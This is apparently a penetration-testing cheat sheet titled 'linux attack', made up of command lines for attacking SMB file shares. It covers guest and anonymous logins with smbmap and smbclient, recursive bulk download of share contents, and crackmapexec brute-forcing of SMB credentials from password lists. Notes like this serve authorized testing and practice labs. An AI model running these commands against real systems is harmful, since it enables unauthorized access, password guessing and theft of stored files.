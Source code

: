 # linux attack

## smbmap

### login as guest to host

```bash
smbmap -u guest -H "$rhost"
```

### login as anonymous to host

```bash
smbmap -H "$rhost"
```

### print shares recursivly

```bash
smbmap -u <user> -p <password> -H <rhost> -R
```

## smbclient

### list shares

```bash
smbclient -L <computer-name/ip>
```

### connect as anonymous (dont ask for pw)

```bash
smbclient -N //"$rhost"/SomeDir
```

### connect as guest

```bash
smbclient -U guest //"$rhost"/SomeDir
```

### recursive download files via smbclient version 1

1. connect
2. cd folder
3. type: mask
4. type: recurse
5. type: prompt
6. mget *

### recursive download files via smbclient version 2

```bash
smbclient "\\$rhost\share" -N -c 'prompt OFF;recurse ON;cd 'path\to\directory\';lcd '~/path/to/download/to/';mget *'`
```

## crackmapexec

### bruteforce smb shares

```bash
crackmapexec smb $rhost -u pot-user.txt -p pot-passwords.txt
```

## smbget

### download all files from smb share as Anonymous

```bash
smbget -R smb://<rhost>/<share> -U Anonymous
```

# download all files from smb share as user + password

```bash
smbget -R smb://<rhost>/share/ -U <User>%<Password>
```
